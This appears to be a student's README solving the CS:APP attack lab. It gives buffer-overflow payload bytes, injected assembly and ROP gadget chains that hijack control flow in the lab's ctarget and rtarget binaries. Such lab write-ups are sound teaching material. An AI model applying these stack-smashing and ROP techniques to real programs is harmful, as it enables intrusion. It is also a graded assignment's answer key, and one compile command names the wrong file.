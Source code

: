 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.  
# Part I: Code Injection Attacks
```bash
objdump -d ctarget >> c
```
## Level 1
The address of touch1 is `4017c0`.  
In getbuf, `sub $0x28,%rsp` gives us 40 bytes space.  
So, the attack bytes: [phase1.txt](phase1.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```  
```bash
cat phase1.txt |./hex2raw |./ctarget -q
```
## Level 2
1. move cookie to %rdi
2. move touch2 address to %rsp  

So the assembly code: [phase2.s](phase2.s)
```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```
```bash
gcc -c phase2.s
objdump -d phase2.o > phase2.d
```
So, the attack bytes: [phase2.txt](phase2.txt)
```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
## Level 3
1. Change cookie string to bytes
2. Store bytes in somewhere and move it to %rdi
3. move touch3 address to %rsp

| char | hex |
|:----:|:---:|
|  5   | 35  |
|  9   | 39  |
|  b   | 62  |
|  9   | 39  |
|  9   | 39  |
|  7   | 37  |
|  f   | 66  |
|  a   | 61  |

So the assembly code: [phase3.s](phase3.s)
```assembly
movq %rsp,%rdi
pushq $0x4018fa
ret
```
```bash
gcc -c phase2.s
objdump -d phase3.o > phase3.d
```
So, the attack bytes: [phase3.txt](phase3.txt)
```
48 89 e7 68 fa 18 40 00
c3 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00  <- %rsp when finished getbuf()
```
# Part II: Return-Oriented Programming
```bash
objdump -d rtarget >> r
```
## Level 2
1. move cookie to %rdi
2. move touch2 address to %rsp  
   
```assembly
4019ab: popq %rax
4019a2: movq %rax,%rdi
```
So, the attack bytes: [phase4.txt](phase4.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
## Level 3
1. Change cookie string to bytes
2. Store bytes in somewhere and move it to %rdi
3. move touch3 address to %rsp

Assembly code we can use:
```assembly
4019ab: popq %rax
4019a2: movq %rax,%rdi
4019d6: lea  (%rdi,%rsi,1),%rax
4019dd: movl %eax,%edx
401aad: movq %rsp,%rax
401a70: movl %edx,%ecx
401a13: movl %ecx,%esi
```
The relationship between registers:  
<img src="phase5.png" width="400"/>  
So, the strategy is:
```assembly
401aad: movq %rsp,%rax
4019a2: movq %rax,%rdi
4019ab: popq %rax
48
4019dd: movl %eax,%edx
401a70: movl %edx,%ecx
401a13: movl %ecx,%esi
4019d6: %rsi+%rdi -> %rax
4019a2: movq %rax,%rdi
4018fa: touch3
35 39 62 39 39 37 66 61 00
```
Here 0x48 = 8 * 9 = 72  
So, the attack bytes: [phase5.txt](phase5.txt)
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```
